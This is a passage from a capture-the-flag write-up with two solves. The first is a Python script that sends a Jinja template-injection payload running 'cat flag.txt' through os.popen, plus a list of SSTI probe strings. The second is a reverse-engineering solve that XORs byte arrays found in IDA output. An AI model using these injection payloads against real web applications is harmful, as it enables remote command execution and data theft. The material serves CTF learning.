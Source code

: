 
**Solve:**

```python
import requests as re

def attack(payload):
    url = "https://myschool.ecsc25.hack.cert.pl/users"
    
    r = re.post(url, json= {'username' : 'test ', "bio" : payload})
    uuid = r.text.strip('"')
    
    r = re.get(url=url+"/?session_id="+uuid)
    print(r.text)

exploit = "{{cycler.__init__.__globals__.os.popen('cat flag.txt').read()}}"
attack(exploit)

#payloads_to_test = ["{{2*2}}[[3*3]]", "{{3*3}}", "{{3*'3'}}", "<%= 3 * 3 %>", "${6*6}", "${{3*3}}", "@(6+5)", "#{3*3}", "#{ 3 * 3 }", "{{dump(app)}}", "{{app.request.server.all|join(',')}}", "{{config.items()}}", "{{ [].class.base.subclasses() }}", "{{''.class.mro()[1].subclasses()}}", "{{ ''.__class__.__mro__[2].__subclasses__() }}", "{% for key, value in config.iteritems() %}<dt>{{ key|e }}</dt><dd>{{ value|e }}</dd>{% endfor %}", "{{'a'.toUpperCase()}} ", "{{ request }}", "{{self}}", ]

```

## 7. RE

Run the program in IDA to find the main function (use shift + f12 to see strings). 

sub_1400118B0 - main func

in here, find the password check:

```C
for ( j = 0; j < 39; ++j )
        Buf1[j] = v9[j] ^ Buffer[j];
      if ( !j_memcmp(Buf1, Buf2, 0x27uLL) )
        sub_7FF6B16C11A4((__int64)"Congratulations! You have the correct flag.\n");
      else
        sub_7FF6B16C11A4((__int64)"WRONG.\n");
```

You get the flag by performing this operation: v9\[j\] ^ Buffer\[j\]
and you find the data for these values from here:

```C
  qmemcpy(v9, &unk_7FF6B16CADA0, 0x28uLL);
  qmemcpy(Buf2, &unk_7FF6B16CADD0, 0x28uLL);
```

final script:

```python
v9 = bytes([
    0xE4, 0xFC, 0x83, 0xB0, 0xEC, 0x84, 0x72, 0x8A, 0xE3, 0xB4,
    0xEC, 0x91, 0x03, 0x31, 0x2F, 0x26, 0x30, 0xCB, 0xC4, 0xF8,
    0xF9, 0x31, 0xB9, 0x93, 0xE0, 0xD0, 0xB0, 0x52, 0xE7, 0x0F,
    0xE4, 0x6F, 0x73, 0xF2, 0x47, 0x0B, 0x9F, 0xA5, 0x5F, 0x00
])

buf2 = bytes([
    0x81, 0x9F, 0xF0, 0xD3, 0xDE, 0xB1, 0x09, 0xE6, 0x8A, 0xDF,
    0x89, 0xBC, 0x66, 0x5F, 0x48, 0x4F, 0x5E, 0xAE, 0xA1, 0x8A,
    0x90, 0x5F, 0xDE, 0xBE, 0x82, 0xA5, 0xC4, 0x7F, 0x8E, 0x61,
    0xC9, 0x1D, 0x16, 0x84, 0x22, 0x79, 0xEC, 0xC0, 0x22, 0x00
])

flag = bytes([a ^ b for a, b in zip(v9, buf2)])
```